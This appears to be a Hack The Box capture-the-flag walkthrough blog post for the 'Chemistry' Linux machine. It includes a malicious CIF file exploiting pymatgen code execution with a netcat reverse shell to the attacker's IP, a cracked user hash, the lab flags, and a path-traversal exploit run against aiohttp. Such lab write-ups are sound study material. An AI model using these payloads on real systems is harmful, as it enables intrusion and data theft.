 ```yaml
---
layout: post
title: "Chemistry"
description: "Chemistry is an Easy rated Linux machine on HTB."
categories: [CTF,HTB]
tags: [Linux,Easy]
author: g
---
```


## Nmap Scan
```bash
Nmap scan report for 10.10.11.38
Host is up (0.023s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b6:fc:20:ae:9d:1d:45:1d:0b:ce:d9:d0:20:f2:6f:dc (RSA)
|   256 f1:ae:1c:3e:1d:ea:55:44:6c:2f:f2:56:8d:62:3c:2b (ECDSA)
|_  256 94:42:1b:78:f2:51:87:07:3e:97:26:c9:a2:5c:0a:26 (ED25519)
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/3.0.3 Python/3.9.5
|     Date: Sat, 11 Jan 2025 20:01:28 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 719
|     Vary: Cookie
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Chemistry - Home</title>
|     <link rel="stylesheet" href="/static/styles.css">
|     </head>
|     <body>
|     <div class="container">
|     class="title">Chemistry CIF Analyzer</h1>
|     <p>Welcome to the Chemistry CIF Analyzer. This tool allows you to upload a CIF (Crystallographic Information File) and analyze the structural data contained within.</p>
|     <div class="buttons">
|     <center><a href="/login" class="btn">Login</a>
|     href="/register" class="btn">Register</a></center>
|     </div>
|     </div>
|     </body>
|   RTSPRequest: 
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
```


### Enumerate HTTP (Port 5000)
CIF Analyzer:
![Pasted image 20250111210229.png](/images/Pasted image 20250111210229.png){: .normal }

Start by registering:
![Pasted image 20250111210304.png](/images/Pasted image 20250111210304.png){: .normal }


Looking for CIF file exploits we find the following GitHub repo: [Link](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f)


Payload:
```bash
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("busybox nc 10.10.14.186 80 -e /bin/sh");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

Press view to activate:
![Pasted image 20250111210856.png](/images/Pasted image 20250111210856.png){: .normal }

Shell as app user:
```bash
nc -lvnp 80  
listening on [any] 80 ...
connect to [10.10.14.186] from (UNKNOWN) [10.10.11.38] 40072
id
uid=1001(app) gid=1001(app) groups=1001(app)
```

### Lateral movement
Found DB file with rosa's hash:
```bash
app@chemistry:~/instance$ strings database.db | grep rosa
Mrosa63ed86ee9f624c7b14f1d4f43dc251a5'
```

Cracked the pass:
![Pasted image 20250111211307.png](/images/Pasted image 20250111211307.png){: .normal }

Become the rosa user:
```bash
app@chemistry:~$ su rosa
Password: 
rosa@chemistry:/home/app$ id
uid=1000(rosa) gid=1000(rosa) groups=1000(rosa)
```

User.txt: `81aa1d81b7e36e2c436545a0706baf69`
```bash
rosa@chemistry:~$ cat user.txt
81aa1d81b7e36e2c436545a0706baf69
```


### Privilege Escalation
There is a service running on port 8080:
```bash
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      off (0.00/0/0)
```

Looks like aiohttp 3.9.1 is running here:
```bash
</html>rosa@chemistry:~$ curl -i localhost:8080
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 5971
Date: Sat, 11 Jan 2025 20:15:29 GMT
Server: Python/3.9 aiohttp/3.9.1
```

Got the flag using the following exploit: [Link](https://github.com/wizarddos/CVE-2024-23334)

Modify the exploit to use /assets as /static doesn't exist.
```bash
rosa@chemistry:/dev/shm$ curl -s localhost:8080 | grep 'src='
    <script src="/assets/js/jquery-3.6.0.min.js"></script>
    <script src="/assets/js/chart.js"></script>
    <script src="/assets/js/script.js"></script>
```

Get the flag:
```bash
rosa@chemistry:/dev/shm$ python3 test.py -u http://127.0.0.1:8080 -f /root/root.txt -d /assets
[+] Attempt 0
                    Payload: /assets/../root/root.txt
                    Status code: 404
[+] Attempt 1
                    Payload: /assets/../../root/root.txt
                    Status code: 404
[+] Attempt 2
                    Payload: /assets/../../../root/root.txt
                    Status code: 200
Respose: 
56df24b0894c84773e68ba1722d4a4a4

Exploit complete
```
> We can get the root user's id_rsa key.
{: .prompt-info }


### PWNED!!!
![Pasted image 20250111212633.png](/images/Pasted image 20250111212633.png){: .normal }